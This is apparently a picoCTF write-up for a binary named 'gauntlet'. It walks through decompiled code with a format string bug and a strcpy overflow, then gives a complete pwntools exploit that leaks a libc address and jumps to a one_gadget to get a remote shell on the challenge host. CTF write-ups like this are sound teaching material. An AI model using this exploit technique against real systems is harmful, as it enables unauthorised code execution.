




The binary can be downloaded here, and the libc can be downloaded here.
The source code wasn't provided so I had to decompile the binary as below.
undefined8 main(void)
{
char local_78 [104];
char *local_10;
local_10 = malloc(1000);
fgets(local_10,1000,stdin);
local_10[999] = '\0';
printf(local_10);
fflush(stdout);
fgets(local_10,1000,stdin);
local_10[999] = '\0';
strcpy(local_78,local_10);
return 0;
}
Running a checksec, I could see that the stack was unexecutable and NX was enabled.
I thought of abusing the fact that PIE was not enabled and injecting an ROP chain, but there was no way to overwrite the stack buffer past
a null byte because the function used to write to the stack was strcpy. Trying to overwrite the return address of main
with some address pointing to the .text section(0x40xxxxxx) kept causing a segfault since the original return address of main always pointed to
somewhere in libc(0x7fxxxxxxxxxx).

I noticed a format string bug in the decompilation which could be used to leak the return address of main and thus libc base.
So using pwndbg I noticed that the offset of the return address was 0x21c87.


After getting libc base, I could use one_gadget to get a gadget that would pop a shell. I used the third gadget in the image below.

The exploit code is as below.
#!/usr/bin/python3
from pwn import *
def ex():
# context.log_level = "debug"
libc = ELF("./libc-2.27.so")
e = ELF("./gauntlet")
p = remote("wily-courier.picoctf.net", 51546)
p.sendline(b"%23$p")
libc_base = int(p.recvline().strip(), 16) - 0x21c87
p.sendline(b"A"*0x78 + p64(libc_base + 0x4f302))
p.interactive()
if __name__ == "__main__": ex()